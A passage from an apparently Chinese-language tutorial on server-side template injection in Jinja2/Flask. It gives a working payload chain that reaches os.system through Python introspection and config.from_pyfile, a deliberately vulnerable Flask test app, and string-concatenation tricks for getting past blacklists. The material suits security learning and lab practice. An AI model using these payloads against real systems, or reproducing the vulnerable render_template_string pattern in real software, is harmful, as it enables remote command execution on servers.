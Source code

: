 playload：

```jinja2
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evil', 'w').write('from os import system%0aSHELL = system') }}
//写文件,不通用的,最简单是相同路径放一个文件
{{ config.from_pyfile('/tmp/evil') }}
//加载system
{{ config['SHELL']('calc') }}  或 {{ config['SHELL']('gnome-calculator') }}
//window或ubuntu执行命令，弹出计算机
```

### 利用模语言自身的特性

Python  最最经典的就是使用魔法方法，这里就涉及到Python沙盒绕过了，前面说过，模板的设计者也发现了模板的执行命令的特性，于是就给模本增加了一种沙盒的机制，在这个沙盒中你很难执行一般我们能想到函数，基本都被禁用了，所以我们不得不使用自省的机制来绕过沙盒，详细看上面

### 过滤绕过(python)

>   下面是将常见的绕过介绍一下
>
>   对黑名单绕过，可以看[(47条消息) 细说Jinja2之SSTI&bypass_合天网安实验室的博客-CSDN博客](https://blog.csdn.net/qq_38154820/article/details/111399386)

测试环境

```python
from flask import Flask

from flask import render_template
from flask import request
from flask import render_template_string

app = Flask(__name__)
@app.route('/')
def test():
    code = request.args.get('id')
    template = '''
        &lt;h3&gt;%s&lt;/h3&gt;
    '''%(code)
    return render_template_string(template)


if __name__ == "__main__":
    app.run(host="0.0.0.0", debug=True, port=80)
```

### 字符串绕过

*   **字符拼接**

    `""["__cla""ss__"]`
    `"".__getattribute__("__cla""ss__")`

    **但用.拼接会报错(`''."__cla""+"ss__"`)，用[]和`__getattribute__`访问没问题**

